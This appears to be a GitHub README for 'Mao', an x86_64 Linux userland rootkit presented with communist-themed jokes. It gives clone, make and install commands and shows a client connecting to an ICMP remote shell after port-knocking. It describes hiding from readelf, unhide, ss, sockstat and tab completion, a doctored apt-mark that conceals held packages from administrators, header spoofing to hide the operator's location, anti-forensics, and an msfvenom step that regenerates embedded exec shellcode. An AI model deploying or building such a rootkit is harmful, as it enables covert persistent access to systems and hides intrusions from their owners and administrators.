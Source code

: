 # Mao
A protracted people's rootkit.<br><br>
<img src="https://i.redd.it/4pwkibrp0uq91.jpg" />

Another x86_64 userland rootkit for Linux. 
---

Like in real life, Mao took a lot of inspiration from <a href="https://github.com/mephistolist/hoxha">Hoxha</a>. While his style differed from <a href="https://github.com/mephistolist/tito">Tito</a>, they both integrated elements of Capitalism into their economies. At the same time, Mao had his own theory and legacy. For this reason you may find elements of the two previously mentioned projects, but a great deal of improvements and changes. Better mutation, anti-forensics and better hiding on the system. Again, I will probably hold off on going in-depth on this project until after its publication. 

You will need to install one dependency in order to build this code:

```
sudo apt install libreadline-dev
```

You can then download make and install with the following:

```
git clone https://github.com/mephistolist/Mao.git; cd Mao; make; make install;

```

After this you should have a binary called 'enver', you cannot see in the project directory. However, you can type 'enver' with the ip address of where you have this installed to connect:

```
./enver 127.0.0.1
[*] Initiating knock sequence. Please wait.
[*] ☭ Political power grows out of the barrel of a gun. ☭
[+] ICMP shell connected. Type commands (type 'exit' to quit):
icmp-shell>
```

New Features
---

The enver client taken from <a href="https://github.com/mephistolist/hoxha">Hoxha</a> now has the ability to spoof X-Forwarded-For, X-Originating-IP, X-Remote-IP and X-Remote-Addr headers. In the event someone was to intercept your traffic and you have spoofed your ip via a vpn or proxy, these headers can give away your true location, or confuse someone further if spoofed. 

You will also notice that both enver and hoxha have checks to ensure that the hex value of 0xDEADBEEF is passed. So even after the port-knocking checks and passwords, that will be need to be passed with each packet to ensure the connections stays in place.

Unlike with <a href="https://github.com/mephistolist/hoxha">Hoxha</a>, we will be hidden from readelf, unhide, sockstat, ss and tab completion. Though you may need to exit SSH and reconnect after installing to see the hidding from tab completion worker.

To prevent overwriting of packages that would fool an administrator, we will also install a custom version of apt-mark that will not show the specific packages we have put on hold. 

Like <a href="https://github.com/mephistolist/tito">Tito</a>, we will use an ICMP shell, but the shell with Tito used older functions that could not allow for static linking. The ICMP shell with Mao will now allow for static linking.

A lot of new features were added to the sections for mutation and antibugging, 

Devlopment Notes
---

If you make changes to this code, you will need to regenerate its binary data with msfvenom:

```
msfvenom -p linux/x64/exec CMD=/usr/bin/hoxha -f raw -o shellcode.bin -b "\x00\x0a\x0d"
```

Then convert that to base64:

```
base64 -w0 shellcode.bin
```

Then replace it with the base64 inside libexec.c and recompile to apply your changes. 

If you want to make changes to the binaries in the 'tools' directory, you can grep for 'Mao' in the source code to see where we have made our edits:

```
# grep -nr Mao references/
references/sockstat.c:299:    /* --- Mao Handler --- */
references/readelf.c:1977:	/* Mao handler */  
references/ss.c:2469:    	/* Mao handler to hide ICMP/ICMPv6 sockets entirely */
references/apt-mark.cc:368:    // Mao - packages to filter out
```

The README file in the 'references' directory will have further documentation.

This has currently been tested on Debian Forky using kernel 6.16.7.
